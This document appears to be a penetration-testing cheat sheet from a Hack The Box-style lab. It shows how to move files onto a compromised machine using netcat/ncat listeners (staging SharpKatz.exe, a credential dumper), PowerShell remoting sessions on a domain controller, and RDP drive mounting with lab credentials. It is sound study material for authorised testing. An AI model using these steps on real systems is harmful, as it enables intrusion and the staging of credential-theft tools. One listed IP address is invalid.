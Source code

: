 # File Transfers Using Netcat and Ncat

## NetCat: Compromised Machine - Listening on Port 8000
```bash
nc -lp 8000 > SharpKatz.exe
```

If the comporomised machine is using Ncat, we'll need to specify `--recv-only` 
to close the connection once the file transfer is finished.

## Ncat -Compromised Machine - Listening on Port 8000
```bash
target: ncat -lp 8000 --recv-only > SharpKatz.exe
```

## Netcat -Attack Host - Sending File to Comporomised Machine
```bash
home: 
	wget -q https://github.com/somerandomuser/somerandombullshit.exe
	nc -q 0 192.168.111.124 8000 < somerandombullshit.exe
```

## Ncat - Attack Host - Sending Files to Compromised Machine
```bash
home:
	ncat --send-only 192.168.111.124 8000 < somerandombullshit.exe

or from the victim machine:
	nc 10.10.14.154 443 > somerandombullshit.exe
```
## Using PowerShell

```bash
PS:

whoami
htb\administrator

hostname
DC01

Test-NetConnection -ComputerName DATABASE01 -Port 5985

	ComputerName:	DATABASE01
	RemoteAddress:	192.168.69.420
	RemotePort:		5985
	InterfaceAlias:	Ethernet0
	SourceAddress:	192.168.1.100
	TcpTestSucceeded:	True

$session = New-PSsession -ComputerName DATABASE01

Copy-Item -Path C:\samplefile.txt -ToSession $session 
	-Destination C:\Users\Administrator\Desktop\samplefile.txt

to download FROM remote:

Copy-Item -Path C:\Users\Administrator\Desktop\samplefile.txt 
	-Destination C:\ -FromSession $session
```

## Mounting a Linux Folder Using rdesktop

```bash
rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password123!' 
	-r disk:linux='/home/user/share/files'
```

## Mounting a Linux Folder Using xfreerdp

```bash
xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password123!' \
	/drive:linux,/home/user/share/files
```

To access the directory, we can connect to `\\tsclient\`, 
allowing us to transfer files to and from the RDP session. 

Alternatively, from Windows we can use the native `mstsc.exe` remote desktop client.

